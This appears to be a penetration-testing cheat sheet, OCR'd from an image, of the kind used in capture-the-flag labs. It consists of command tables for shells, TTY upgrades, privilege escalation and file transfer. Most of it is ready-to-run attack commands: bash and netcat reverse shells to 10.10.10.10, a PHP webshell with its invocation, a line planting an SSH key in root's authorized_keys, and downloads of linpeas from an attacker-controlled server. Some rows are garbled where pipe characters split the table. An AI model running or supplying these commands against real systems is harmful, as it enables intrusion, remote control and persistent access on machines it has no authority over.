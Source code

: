 
# Shells & TTY Upgrades

| Command                                                           | Description                            |                              |                        |
| ----------------------------------------------------------------- | -------------------------------------- | ---------------------------- | ---------------------- |
| `nc -lvnp 1234`                                                   | Start a netcat listener                |                              |                        |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`             | Reverse shell (bash)                   |                              |                        |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f                               | /bin/sh -i 2>&1                        | nc 10.10.10.10 1234 >/tmp/f` | Reverse shell via FIFO |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                  | Upgrade shell to fully interactive TTY |                              |                        |
| `Ctrl+Z` then `stty raw -echo` then `fg` then Enter twice         | Alternative TTY upgrade                |                              |                        |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a PHP webshell                  |                              |                        |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                     | Execute command on webshell            |                              |                        |

---

# Privilege Escalation Enumeration

| Command                                                           | Description                                 |
| ----------------------------------------------------------------- | ------------------------------------------- |
| `./linpeas.sh`                                                    | Run linPEAS enumeration script              |
| `sudo -l`                                                         | List allowed sudo commands for current user |
| `sudo -u user /bin/echo Hello`                                    | Run command as another user via sudo        |
| `sudo su -`                                                       | Switch to root if allowed                   |
| `ssh-keygen -f key`                                               | Create SSH key pair                         |
| `echo "ssh-rsa AAAAB... user@host" >> /root/.ssh/authorized_keys` | Add public key to root's authorized_keys    |
| `ssh root@10.10.10.10 -i key`                                     | SSH using private key                       |

---

# Transferring Files

| Command                                                | Description                                           |                              |
| ------------------------------------------------------ | ----------------------------------------------------- | ---------------------------- |
| `python3 -m http.server 8000`                          | Start a simple HTTP server in CWD                     |                              |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Download file from an attacker-controlled HTTP server |                              |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download file with curl                               |                              |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Copy file via SCP (requires SSH)                      |                              |
| `base64 file -w 0`                                     | Convert file to base64 without linewrap               |                              |
| `echo f0VMR...                                         | base64 -d > shell`                                    | Decode base64 back to binary |
| `md5sum shell`                                         | Check file MD5 checksum                               |                              |

---